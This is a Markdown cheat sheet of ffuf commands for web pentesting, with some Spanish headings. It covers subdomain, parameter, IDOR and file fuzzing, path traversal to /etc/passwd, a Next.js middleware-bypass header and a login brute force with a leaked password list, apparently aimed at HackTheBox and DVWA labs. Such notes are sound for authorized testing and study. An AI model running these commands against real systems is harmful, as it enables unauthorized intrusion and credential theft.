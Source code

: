 # FFuF 
[Tutorial](https://null-byte.wonderhowto.com/how-to/fuzz-parameters-directories-more-with-ffuf-0330806/)

#### Subdominos

```bash
ffuf -u http://domain.com -H "Host: FUZZ.domain.com" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -ac -mc all
```

#### Url Parameters

```bash
ffuf -u 'http://domain.com/api/download?FUZZ=test' -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -H 'x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware' -ac
```

```bash
ffuf -w /usr/share/wordlists/dirb/small.txt -u 'http://domain.com/api/download?example=../../../app/.next/FUZZ' -mc 200,301,302,500,404\n
```
* Numeric parameter
```bash
ffuf -w <(seq 0 10000) -u 'http://file.era.htb/download.php?id=FUZZ' -H "Cookie: PHPSESSID=4hp1nipcjl1kb3bibmoh4m5n7v" -mc 200 -fs 7686
```

* Page 

```bash
ffuf -w payloads.txt -u 'http://10.10.11.74/index.php?page=FUZZ' -mc 200,302 -t 40 -o ffuf_param.json -of json
```

* IDOR

```bash
seq 1 50 > idor.txt

ffuf -u 'http://portal.guardian.htb/student/chat.php?chat_users[0]=FUZZ1&chat_users[1]=FUZZ2' -w idor.txt:FUZZ1 -w idor.txt:FUZZ2 -mode clusterbomb -H 'Cookie: PHPSESSID=<id>' -fl 178,164
```

* Path traversal

```bash
# Ejemplo basico
ffuf -w <(sed 's|{FILE}|/etc/passwd|g' payload.txt) -u http://target/FUZZ
```

#### Posible files

```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -u 'http://file.domain.com/FUZZ' -e .php,.html,.txt,.js,.json,.xml,.bak,.old -fs 6765 -fc 404 -t 50
```

#### POST Request

```bash
ffuf -w /usr/share/seclists/Passwords/darkweb2017-top100.txt -X POST -d "username=admin\&password=FUZZ\&Login=Login" -u http://10.10.0.50/dvwa/login.php
```
